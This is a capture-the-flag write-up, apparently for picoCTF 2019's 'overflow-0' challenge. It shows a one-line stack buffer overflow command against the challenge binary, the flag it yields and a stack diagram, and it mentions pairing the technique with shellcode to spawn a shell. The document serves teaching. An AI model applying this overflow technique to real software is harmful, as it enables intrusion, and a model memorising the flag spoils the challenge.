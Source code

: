 Now that the stack frame is complete, we can see how we can cause a segfault. If we can overwrite the return address with garbage when `vuln()` returns, the process will try to execute un-executable memory causing a segfault. This is easier done than said.

```bash
user@pico-2019-shell1:/problems/overflow-0_4_e130f4df1710865981d50f778a8059f7$ ./vuln $(python -c "print('a'*144)")
picoCTF{3asY_P3a5y2f814ddc}
```

After the strcpy, the stack looks like this ...
```
                /-----------------------\
                | Previous Stack Frame  |
                \-----------------------/
                /-----------------------\
[ebp+8]         |       argv[1]         |
                |-----------------------|
                |         aaaa          | Return Address
                |-----------------------|
                |         aaaa          | <-- ebp
                |-----------------------|
                |         aaaa          |
                |-----------------------|
                |         aaaa          |
                |-----------------------|
                |         aaaa          |
                            .
                            .           
                            .           
[ebp-0x88]      |         aaaa          | <-- esp
                \-----------------------/
```

This technique of overwriting the return address can also be combined with the shellcode of [handy-shellcode](handyShellcode.md) to produce an exploit that spawns a shell. This is useful when there isn't a magical function that prints the flag for you.
